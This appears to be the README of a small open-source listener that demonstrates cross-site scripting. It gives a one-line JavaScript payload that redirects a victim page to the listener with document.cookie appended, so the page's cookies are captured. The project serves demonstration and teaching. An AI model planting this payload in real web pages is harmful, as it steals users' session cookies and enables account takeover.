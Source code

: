 # xss-demonstrator

A simple interactive listener for demonstrating XSS attacks.

![screen capture](assets/screen.gif)

## Usage

1\. Start demonstrator 

```
npm start
```

2\. Execute an XSS payload on the victim webpage

```js
window.location = "http://localhost:8080/?" + document.cookie
```

3\. The webpage is opened with the stolen cookies in demonstrator

## Example

1\. Start demonstrator

```
npm start
```

2\. Start the example server

```
cd example
node server.js
```

3\. Open <http://localhost:8000/>

## Todo

* [ ] Add config feature
* [ ] Complete packaging
* [ ] Add tunneling proxy feature
* [ ] Add more information gathering features
* [ ] Add tests
* [ ] Add icon
* [ ] Add auto update

## See also

* BeEF <http://beefproject.com/> (for advanced purposes)
